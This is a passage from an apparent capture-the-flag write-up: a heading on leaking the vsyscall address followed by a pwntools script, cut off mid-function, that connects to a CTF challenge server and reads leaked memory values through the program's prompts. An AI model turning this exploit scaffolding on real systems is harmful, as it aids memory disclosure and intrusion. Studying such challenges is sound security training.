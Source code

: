 ### Leaking vsyscall
Thankfully, vsyscall is a constant value so we 
can look in gdb to get the value

```python
#! /usr/bin/python
from pwn import *
import Crypto.Util.number as cun

context.update(
        arch="amd64",
        endian="little",
        #log_level="debug",
        log_level="info",
        os="linux",
        terminal=["alacritty", "-e"]
)

to = 0.5
ru = lambda p,s: p.recvuntil(s, timeout=to)
rl = lambda p: p.recvline()
sla = lambda p,a,b: p.sendlineafter(a, b, timeout=to)
sl = lambda p,a: p.sendline(a)
up = lambda b: int.from_bytes(b, byteorder="little")

SERVICE = "challs.pwnoh.io"
PORT = 13375

def start(binary):

    gs = '''
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        set follow-fork-mode parent
    '''

    if args.GDB:
        return gdb.debug(binary, gdbscript=gs)
    elif args.REMOTE:
        return remote(SERVICE,PORT)
    else:
        return process(binary)

def get_leak(p,e,target):
    #sleep(2)
    try:
        ru(p,b"Where to captain?")
        sl(p,str(target))
        ru(p,b"Good choice! We gathered ")
        leak = int(rl(p).split(b" ")[0])
        log.info(f"Leaked {hex(leak)} at {hex(target)}")
        return leak
    except:
        return 0
        pass


def answer(p,e,answer):

    sleep(2)
    log.info(f"Answering {hex(answer)}")
    ru(p,f"Where in the world is")
```